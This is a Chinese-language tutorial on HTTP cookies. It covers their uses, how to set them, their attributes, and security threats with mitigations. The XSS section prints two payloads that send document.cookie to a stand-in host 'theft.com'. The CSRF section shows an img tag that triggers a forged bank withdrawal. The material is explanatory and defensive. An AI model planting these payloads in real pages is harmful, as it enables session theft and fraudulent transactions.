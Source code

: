 ## Cookie用途

**记录会话**

  我们都知道http为无状态协议，即使客户端C上一次请求A告诉服务端S他是谁，下一次请求B到服务端S时，服务端S依然不知道是谁在访问，所以需要一个记录来跟踪用户登录状态，最常用的就是Cookie了，现在也有很多不传送cookie，走http headers进行认证，这样的话可以减少传送一些客户端才需要使用的cookie，节省带宽

**行为分析**

  通过cookie去跟踪用户的轨迹和使用情况，分析这些这些数据，（用户浏览了什么页面和内容/什么时候访问的/在当前页面停留多久/浏览最多的页面/查询最多的关键词等），从而可以定向精准的投放广告服务或者个性化服务，例如谷歌搜索，会记录你每次的搜索关键词，向你推荐相关关键词，了解你的兴趣爱好

## Cookie设置
cookie的设置方式又2种，第一种是由服务端的响应头中添加Set-Cookie，该响应头可以有多个同时存在，如
```js   
HTTP/1.1 200 OK
Content-type: text/html
Set-Cookie: theme=light
Set-Cookie: sessionToken=abc123; Expires=Wed, 09 Jun 2021 10:18:14 GMT; httponly
```
第二种在客户端通过js进行设置，如
```js
document.cookie='cookieName=cookieValue; expires=Tue, 06 Apr 2021 11:46:35 GMT; path=/; domain=xxx.com; secure;samesite=strict'
```
#### 属性说明

- **expires** => 值为GMT时间字符表示过期的日期点，可以设置该值为过去日期来删除该cookie<br>

- **maxage** => 值为未来的时间长度，单位为S，表示过期的时间长度<br>

- **path** => 限制cookie在该路径下，只能在该路径下才能发送<br>

- **domain** => 限制cookie在该域下，可以在该域和子域下发送，如果没有设置则只在该域下发送<br>

- **secure** => 限制只能在https下加密传输<br>

- **samesite** => 控制跨域下请求是否发送cookie,有三个值，分别为none(可以),strict（只在同域下发送站点）,lax（和strict差不多，不过只能通过link这种外部导航方式进入才会发送），默认为lax<br>

- **httponly** => 只通过http暴露cookie,这就表示不能通过js脚本document.cookie设置和访问<br>

#### 注意事项
`1. 没有设置expires或者maxage则默认为会话cookie，浏览器关闭之后则消失，反之为持久cookie`<br>
`2. 没有设置domain或者path则默认只能在当前域或路径下传送cookie`<br>
`3. 删除时，domain和path需要该cookie一致`<br>
`4. httponly只能通过服务端Set-Cookie设置`<br>
## Cookie安全
### SessionHijacking（会话劫持）
在客户端和服务端之间进行cookie的传输时，网络上的流量可以被发送方以外的网络上的计算机拦截和读取，特别是在未加密开放式的wifi上，通过拦截到的cookie来冒充用户发起恶意行为<br>

1.可以使用https加密传输，同时设置secure只能通过https进行传输<br>
2.随机方式生成会话，或者基于用户信息+时间+ip地址生成会话
### XSS（跨站脚本攻击）
在客户端执行了没有经过过滤的恶意代码将cookie发送到第三方服务器上，即使cookie添加了secure，如果第三方服务器启用了https，一样会被发送,如下代码
```js
 (new image()).src='https://theft.com/transparent.jpg?cookie='+document.cookie;
```
```html
<a href="#" onclick="window.location = 'http://theft.com/stole?cookie=' + encodeURIComponent(document.cookie); return false;">点击</a>
```
**1.杜绝源头**

- 存储时进行转义
- 不要引用来自不受信任域的js文件

**2.执行控制**

- 在输出时先对内容（来自url参数或者ajax）进行转义如（ & < > " ' / javascript:）
- 注意使用eval()、setTimeout()、setInterval()、innerHTML、document.write()等可以执行字符串的代码
- 由服务端通过Set-Cookie设置httponly，使document.cookie无法获取
### CSRF（跨站请求伪造）
代表用户在其他地方发起一个伪造的请求，假如在一个没有做输入过滤的论坛上接收到一个消息，该消息为如下代码
```html
<img src="http://bank.com/withdraw?account=you&amount=1000000&for=attacker">
```
如果此时你正好登录了bank.com且cookie有效，那该条消息会携带cookie向银行服务器发送一个转账的请求，银行通过cookie发现有效，则会执行转账操作

- 尽量减少敏感cookie失效时间
- cookie设置SameSite为lax同源策略
- 敏感请求应该提供再次确认，如收到该请求后告知前端需要滑块验证或者输入用户信息，通过后回传才能继续执行
- 通过请求头origin或者referrer验证请求来源，且改用post方式（虽然请求头可以伪造，但是可以抵挡部分伪造和get请求）
- 不通过cookie进行认证，可添加一个自定义请求头进行认证，其值为动态生成的随机字符串
- 输入和输出过滤
